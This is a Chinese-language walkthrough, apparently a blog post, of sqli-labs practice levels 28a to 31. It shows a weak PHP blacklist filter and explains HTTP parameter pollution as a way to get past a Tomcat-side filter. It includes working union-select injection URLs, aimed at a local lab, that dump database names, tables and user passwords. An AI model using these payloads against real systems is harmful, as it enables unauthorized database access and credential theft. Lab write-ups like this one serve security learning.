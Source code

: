 ```
```

# Less-28a
。。。我觉得这题就是来搞笑的，看一下过滤语句。
``` php
function blacklist($id)
{
//$id= preg_replace('/[\/\*]/',"", $id);				//strip out /*
//$id= preg_replace('/[--]/',"", $id);				//Strip out --.
//$id= preg_replace('/[#]/',"", $id);					//Strip out #.
//$id= preg_replace('/[ +]/',"", $id);	    		//Strip out spaces.
//$id= preg_replace('/select/m',"", $id);	   		 	//Strip out spaces.
//$id= preg_replace('/[ +]/',"", $id);	    		//Strip out spaces.
$id= preg_replace('/union\s+select/i',"", $id);	    //Strip out spaces.
return $id;
}
```
在上一题的基础上注释掉那么多，直接拿上一题的语句就行。

# Less-29
这题的考点是HTTP参数污染。  
![](http://VonLYC.github.io/img/blog10-4.png)
服务器端有两个部分：第一部分为 tomcat 为引擎的 jsp 型服务器，第二部分为 apache 为引擎的 php 服务器，真正提供 web 服务的是 php 服务器。在我们实际应用中，也是有两层服务器的情况，那为什么要这么做？是因为我们往往在 tomcat 服务器处做数据过滤和处理，功能类似为一个 waf，由于解析参数机制的不同，我们此处可以利用该原理绕过 WAF 的检测；  
数据解析顺序：tomcat从前往后，apache从后往前
![](http://VonLYC.github.io/img/blog10-5.png)
![](http://VonLYC.github.io/img/blog10-6.png)
客户端请求首先过 tomcat，tomcat 解析第一个参数，接下来 tomcat 去请求 apache（php） 服务器，apache 解析最后一个参数。最终返回客户端的也是第二个参数，因为实际上提供服务的是 apache（php）服务器，返回的数据也应该是 apache 处理的数据。  
经过白名单过滤的就只是tomcat解析到的第一个id参数，但是如果传入两个id参数，tomcat的过滤就失效了。apache直接解析最后一个id，没有任何waf，轻松注入，该用法就是 HPP（HTTP Parameter Pollution）即 HTTP 参数污染攻击。HPP 可对服务器和客户端都能够造成一定的威胁。
```
http://127.0.0.1/sqli-labs-master/Less-29/?id=1&id=0' union select 1,database(),3--+
http://127.0.0.1/sqli-labs-master/Less-29/?id=1&id=0' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3--+
http://127.0.0.1/sqli-labs-master/Less-29/?id=1&id=0' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),3--+
http://127.0.0.1/sqli-labs-master/Less-29/?id=1&id=0' union select 1,(select group_concat(username,0x3a,password,0x3c2f62723e) from security.users),3--+
```

# Less-30
这道题和Less-29基本一样，只是闭合由'改成了"。不再赘述

# Less-31
这道题和Less-29也基本一样，只是闭合由'改成了")。不再赘述
